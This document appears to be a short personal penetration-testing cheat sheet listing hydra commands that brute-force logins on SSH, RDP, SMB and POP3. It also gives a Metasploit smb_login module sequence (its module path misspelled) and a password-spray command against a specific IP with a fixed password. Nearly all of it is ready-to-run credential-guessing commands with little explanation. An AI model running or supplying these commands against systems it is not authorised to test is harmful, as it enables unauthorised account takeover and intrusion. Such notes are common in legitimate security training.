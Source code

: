   brute force SSH 

```
hydra -L user.list -P password.list ssh://<target-ip> -t 64
```

```
hydra -l username -p password ssh://<target-ip> -t 64
```
brute force rdp 
```
hydra -L user.list -P password.list rdp://<target-ip> -t 64
```

brute fore smb
```
hydra -L user.list -P password.list smb://<target-ip> -t 64
```
if there is an error -> manually update and recompile hydra or use Metasploit
```
use auxilirary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
set rhosts <ip-address>
run
```

we can specify the port also `service://target-ip:port`


brute force pop3
```
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```